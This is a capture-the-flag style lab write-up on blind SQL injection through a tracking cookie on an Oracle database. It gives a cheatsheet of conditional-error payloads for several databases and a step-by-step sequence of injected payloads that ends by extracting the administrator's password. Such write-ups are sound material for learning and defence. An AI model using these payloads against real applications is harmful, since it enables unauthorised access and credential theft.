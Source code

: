 # Description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
# Solution
- Blind SQL injection with conditional errors is used when the previous SQLi with conditional responses does not work, meaning the return of `TRUE` and `FALSE` are same (difficult to verify or recognise).
## Cheatsheet
- You can test a single boolean condition and trigger a database error if the condition is true.

| DB         | Description                                                                             |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

 1) **Prove the cookie is vulnerable to SQLi:**
Modify the cookie:
```
Cookie: TrackingId=WfKNbl117PLDttg'
```
=> The error message is received cause the quotation is not escaped.

Append two quotation mark:
```
Cookie: TrackingId=WfKNbl117PLDttg''
```
=> Verify that the error disappears -> the quotation gets escaped.

Now we can test more command injection to confirm that it is the SQLi. To do this, you first need to construct a subquery using valid SQL syntax. 

Try submitting:
```
'||(SELECT '')||'
```
=> Receive error -> Perhaps due to the database type.

Try some table name:
```
'||(SELECT '' FROM dual)||'
```
=> Receive 200 response.

```
'||(SELECT '' FROM dualsqweqwe)||'
```
=> Receive error (the table not existed).

-> Because of getting two different responses, you can confirm that it is the **Oracle** DB.

2) **Verify that the** `users` **table exists:**
```
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
=> Receive 200 response.

- `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

```
'||(SELECT '' FROM usersdsa WHERE ROWNUM = 1)||'
```
=> Receive error (the table not existed).

-> Because of getting two different responses, you can confirm that the `users` table exists.

3) **Verify that the** `administrator` **exists in** `user` **table with** `username` **and** `password` **columns:**
```
'||(SELECT '' FROM users WHERE username = 'administrator')||'
```
=> Return 200 response code.

```
'||(SELECT '' FROM users WHERE username = 'administrator123123')||'
```
=> Also return 200 response code.

```ad-note
It is impossible to verify whether `administrator` user exists as the returning of two commands above is **same**.
=> Use **conditional errors** to solve it with the addition of `CASE`.
```

To take an advantage of **conditional error** mechanism -> use `CASE`
```
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
=> 500 internal error.

```
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator1231231')||'
```
=> 200 response code.

```ad-summary
Now we can realize that username will exist if returning **error response**, not normal one.
```

4) **Determine the length of password**
The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
```
'||(SELECT CASE WHEN LENGTH(password)>$1$ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![](../../Image/Pasted%20image%2020250516143916.png)

=> The web application responds 500 server error until reaching the number 20 -> 20 chars in password.

5) **Find the password of administrator user**

```
'||(SELECT CASE WHEN SUBSTR(password,$1$,1) = '$s$' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

```ad-note
Use **SUBSTR()** for Oracle Databases.
```

![](../../Image/Pasted%20image%2020250516151815.png)

- Get filtered by **500 server error** response code.

=> administrator:fyd1kq0ox1nwac9u0tgw